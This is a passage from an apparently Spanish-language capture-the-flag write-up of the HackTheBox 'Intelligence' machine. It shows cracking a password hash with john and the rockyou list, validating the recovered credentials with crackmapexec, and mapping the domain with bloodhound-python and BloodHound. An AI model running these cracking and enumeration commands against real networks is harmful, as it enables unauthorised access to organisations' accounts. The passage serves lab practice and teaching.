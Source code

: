 ```bash
john -w:/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hash
```


{:.note}
La pass es Mr.Teddy y el usuario Ted.Graves.

Podemos hacer lo que siempren hacemos y validar las credenciales.

```bash
crackmapexec smb 10.10.10.248 -u "Ted.Graves" -p "Mr.Teddy"
```

{:.note}
Son credenciales validas pero no pwned.

Con la siguente herrmienta vamos arecolectar toda la informacion del DC.

![list](/assets/img/intelligence/Kali-2022-09-10-03-24-11.png){:.lead width="800" height="100" loading="lazy"}

```bash
bloodhound-python -c All -u 'Ted.Graves' -p 'Mr.Teddy' -ns 10.10.10.248 -d intelligence.htb
```

En este caso vamos a enumerar posibles vectores para escalar privileguios con bloodHound

```bash
neo4j console
```

{:.note}
Arrancamos neo4j que comparte un servicio por el puero 4747 y te loogeas si ya los 

has hecho habres el bloodhound.

```bash
bloodhound &> /dev/null & disown
```

{:.note}
Independizamos el proceso.

Cargamos todo lo que encontramos [bloodhound-python] en en el bloodhound.

[bloodhound-python]: https://github.com/fox-it/BloodHound.py

![list](/assets/img/intelligence/ldump2.png){:.lead width="800" height="100" loading="lazy"}


[Kerberosting]: https://www.netwrix.com/cracking_kerberos_tgs_tickets_using_kerberoasting.html
[dnstool.py]: https://github.com/dirkjanm/krbrelayx
[gmsadumper]: https://github.com/micahvandeusen/gMSADumper